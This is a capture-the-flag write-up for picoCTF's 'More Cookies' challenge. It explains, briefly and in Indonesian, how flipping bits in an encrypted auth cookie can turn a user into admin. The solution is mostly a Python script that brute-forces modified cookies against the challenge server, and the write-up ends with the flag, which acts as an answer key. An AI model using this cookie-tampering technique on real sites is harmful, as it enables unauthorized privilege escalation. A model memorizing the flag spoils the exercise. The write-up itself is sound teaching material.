 <h1>More Cookies</h1>
<p>I forgot Cookies can Be modified Client-side, so now I decided to encrypt them! http://mercury.picoctf.net:34962/</p>
<p>Hint :</p>
<ul>
<li>https://en.wikipedia.org/wiki/Homomorphic_encryption</li>
<li>The search endpoint is only helpful for telling you if you are admin or not, you won't be able to guess the flag name</li>
</ul>
<h3>Solution</h3>

<p> Homomorphic yaitu mengganti bit peran yang sudah ter-encrypt dan menjadi pesan lain dalam bentuk decryptnya</p>

```python3
import base64
import requests


def bruteforce(i,j,dec):
    data = [n for n in dec]
    data[i] = data[i]^j
    raw = ''.join([chr(n) for n in data])
    return base64.b64encode(raw.encode('utf8'))

url = 'http://mercury.picoctf.net:34962/'
encode = 'RkVBc3ZhQWZLdHVsdzdYQU16Zzk4c25qRmtCS3BrYzVka3BwcFAwWGphSUFNRUtXRG11VE4wTVVHQ0syNmlSbzdlSmpyU3d1SkQ5STJRZUNJUkZ0RDBqY2l5Z3Z5bnlrNEVFZklvelN5UzRlN25naWNSM3FLeGFkNzVGT1NwM0Q='

dec = base64.b64decode(encode.encode('utf8'))
for i in range(128):
    for j in range(128):
        hasil = bruteforce(i,j,dec)
        cookies = {'auth_name':hasil.decode('ascii')}
        res = requests.get(url,cookies=cookies).text
        if "picoCTF{" in res:
            print(res)
```

<h3>Flag</h3>
<p>picoCTF{cO0ki3s_yum_e40d16a9}</p>
